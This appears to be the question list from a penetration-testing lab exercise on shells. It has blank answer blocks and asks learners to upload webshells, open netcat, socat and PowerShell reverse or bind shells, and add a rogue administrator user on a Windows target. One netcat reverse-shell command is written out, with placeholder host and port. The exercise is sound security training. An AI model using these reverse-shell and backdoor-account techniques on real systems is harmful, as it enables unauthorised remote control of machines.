 
----------------------------------------

### QUESTIONS:

----------------------------------------

1. Try uploading a webshell to the Linux box, then use the command: nc &lt;LOCAL-IP&gt; &lt;PORT&gt; -e /bin/bash to send a reverse shell back to a waiting listener on your own machine.


```
```

2. Navigate to /usr/share/webshells/php/php-reverse-shell.php in Kali and change the IP and port to match your tun0 IP with a custom port. Set up a netcat listener, then upload and activate the shell.


```
```

3. Log into the Linux machine over SSH using the credentials in task 14. Use the techniques in Task 8 to experiment with bind and reverse netcat shells.


```
```

4. Practice reverse and bind shells using Socat on the Linux machine. Try both the normal and special techniques.


```
```

5. Look through Payloads all the Things and try some of the other reverse shell techniques. Try to analyse them and see why they work.


```
```

6. Switch to the Windows VM. Try uploading and activating the php-reverse-shell. Does this work?


```
```

7. Upload a webshell on the Windows target and try to obtain a reverse shell using Powershell.


```
```

8. The webserver is running with SYSTEM privileges. Create a new user and add it to the "administrators" group, then login over RDP or WinRM.


```
```

9. Experiment using socat and netcat to obtain reverse and bind shells on the Windows Target.


```
```
